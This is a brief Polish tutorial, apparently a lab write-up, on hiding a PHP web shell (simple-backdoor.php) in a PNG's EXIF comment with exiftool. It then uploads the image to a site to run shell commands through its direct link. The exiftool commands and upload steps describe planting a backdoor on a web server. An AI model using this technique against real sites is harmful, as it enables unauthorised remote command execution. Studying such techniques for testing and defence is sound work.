




# Ukrycie pliku PHP shell w obrazku PNG

---

## Wykonanie

Do wykonania tego użyliśmy gotowego skryptu simple-backdoor.php 



```bash
exiftool "-comment<= simple-backdoor.php" 1.png
exiftool 1.png
```



Następnie na stronie dodajemy obraz PNG na stronę



Sprawdzając źródło strony zawierającej obrazek możemy dostać się do bezpośredniego linku do obrazu PNG, który umożliwi nam uruchamianie skryptów w shellu


